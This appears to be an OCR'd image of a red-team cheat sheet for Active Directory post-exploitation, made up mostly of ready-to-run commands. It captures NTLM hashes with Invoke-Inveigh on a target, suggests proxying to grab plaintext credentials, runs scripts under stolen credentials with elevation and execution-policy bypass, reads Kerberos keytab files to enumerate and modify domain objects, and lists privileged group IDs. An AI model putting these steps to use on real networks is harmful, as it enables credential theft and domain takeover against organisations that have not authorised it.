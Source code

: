 #if the user is authenticating to some website, you can use Invoke-Inveigh to capture the hashes. 

#command to start inveigh on the target machine 
Invoke-Inveigh -ConsoleOutput Y

#but you might not be able to get the hashes always, so one option is to setup a proxy on the target and capture the plantext creds 


Powershell Sudo For Windows

$pw= convertto-securestring "EnterPasswordHere" -asplaintext -force
$pp = new-object -typename System.Management.Automation.PSCredential -argumentlist "EnterDomainName\EnterUserName",$pw
$script = "C:\Users\EnterUserName\AppData\Local\Temp\test.bat"
Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command &{Start-Process $script -verb Runas}' 

powershell -ExecutionPolicy Bypass -File xyz.ps1

Domain User Enum via Linux Box 

#Find User Principal Names from /etc/krb5.keytab or /etc/krb5/krb5.keytab
$ /usr/bin/ktutil
ktutil:  read_kt /etc/krb5.keytab
read_kt /etc/krb5.keytab
ktutil:  list

#Domain Enum usind adtool (/opt/pbis/bin/adtool)
#Get CN of a user; get login-as from above ktutil
/opt/pbis/bin/adtool --keytab=/etc/krb5.keytab --logon-as=Server$ -a search-user --name test.user -t 

#Get AD Attrinutes of a user 
/opt/pbis/bin/adtool --keytab=/etc/krb5.keytab --logon-as=Server$ -a lookup-object --attr=unixHomeDirectory --dn 'CN=test.user,DC=steins,DC=local'

#Look up "userAccountControl" attribute of a user with CN TestUserCN:
adtool -a search-user --name CN=TestUserCN -t | adtool -a lookup-object --dn=- --attr=userAccountControl

#Look up all attributes of an AD object using filter-based search:
adtool -a search-object --filter '(&(objectClass=person)(displayName=TestUser))' -t | adtool -a lookup-object

#Add user TestUser to group TestGroup:
adtool -a add-to-group --user TestUser --to-group=TestGroup

User Groups ID Info 

513: Domain Users
512: Domain Admins
518: Schema Admins
519: Enterprise Admins
520: Group Policy Creator Owners


Basic AD Enum After Initial Access using AD Module
#Get Domain Details
$ADClass = [System.DirectoryServices.ActiveDirectory.Domain]
$ADclass::GetCurrentDomain()
